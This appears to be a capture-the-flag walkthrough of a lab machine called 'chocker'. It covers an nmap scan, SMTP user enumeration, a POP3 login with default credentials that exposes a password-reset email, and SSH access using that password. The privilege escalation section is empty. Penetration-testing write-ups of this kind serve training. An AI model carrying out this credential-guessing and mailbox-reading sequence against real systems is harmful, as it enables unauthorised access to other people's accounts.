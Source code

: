 ![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/85688bde-6d42-4a30-921b-12355b314457)

first enumeration with nmap

```
# Nmap 7.93 scan initiated Sat May 27 02:11:10 2023 as: nmap -sC -sV -T4 -oN quicknmap.txt -Pn 10.150.150.56
Nmap scan report for chocker.localhost (10.150.150.56)
Host is up (0.20s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 f2381f67bf488d17a25c6607eaa21ca9 (RSA)
|   256 bb2df9aa436d5f8a46ba838979f8f165 (ECDSA)
|_  256 476a80eecb0e3b6c80db1b6328dc9131 (ED25519)
25/tcp  open  smtp    Postfix smtpd
|_smtp-commands: chocker.localhost, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: CAPA TOP RESP-CODES SASL(PLAIN LOGIN) PIPELINING USER AUTH-RESP-CODE UIDL
143/tcp open  imap    Dovecot imapd (Ubuntu)
|_imap-capabilities: ID LITERAL+ SASL-IR LOGIN-REFERRALS AUTH=PLAIN listed have post-login IDLE ENABLE more AUTH=LOGINA0001 capabilities Pre-login OK IMAP4rev1
Service Info: Host:  chocker.localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat May 27 02:12:20 2023 -- 1 IP address (1 host up) scanned in 70.02 seconds
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/932b3c5c-f098-4b03-83a4-f17489a9ab65)

noticed a web server running on port 80, opening it on a browser, got redirected to a default apache webpage. checked the source page for sus comments, got none. did dir brute force found nothing. let's move to the next port.

### Enumerating smtp port (25)

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/c1f39976-ea8c-4c35-b85d-772e5e5fe245)

found an smtp user_enum script on github [USR-25](https://github.com/SxNade/USR-25). let's run this script.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/f80d6c0e-3b7b-40c4-ae21-2f8e9544ed46)

cool we got the users on smtp, let's enumerate further. 


### Enumerating pop3 port (110)

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/pwntilldawn/choker]
└─$ telnet chocker.localhost 110
Trying 10.150.150.56...
Connected to chocker.localhost.
Escape character is '^]'.
+OK Dovecot (Ubuntu) ready.
USER operator
+OK
PASS operator
+OK Logged in.
LIST
+OK 1 messages:
1 689
.
RETR 1
+OK 689 octets
Return-Path: <sysadmin@chocker.com>
X-Original-To: operator@localhost
Delivered-To: operator@chocker.com
Received: from chocker.com (unknown [192.168.14.1])
        by chocker.localhost (Postfix) with ESMTP id A514BE0E1C
        for <operator@localhost>; Thu,  4 Jun 2020 15:23:04 +0000 (UTC)
Subject: Password Reset

Hello Operator!

As you requested, I've reset your password to access the server.
I'm glad you still remembered your mail-password and were able to contact me, but don't forget it again!
Also remember to delete this mail and change your password again as soon as possible!

Here is your new password: "D0ntForgetP4sswordAgain!"

Best regards, 
your Sysadmin David.

.
```
remember we got some usernames through the smtp_userenum script, so trying the usernames gotten as user and pass, got to se `operator:operator` worked. and we got a password which is a potential ssh password `D0ntForgetP4sswordAgain!`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/d1f1d400-8e2e-4b74-ab6a-f3e329bb8747)

login ssh using  `operator:D0ntForgetP4sswordAgain!` it's worked. we are in let's escalte privs.


## Privilege Escalation






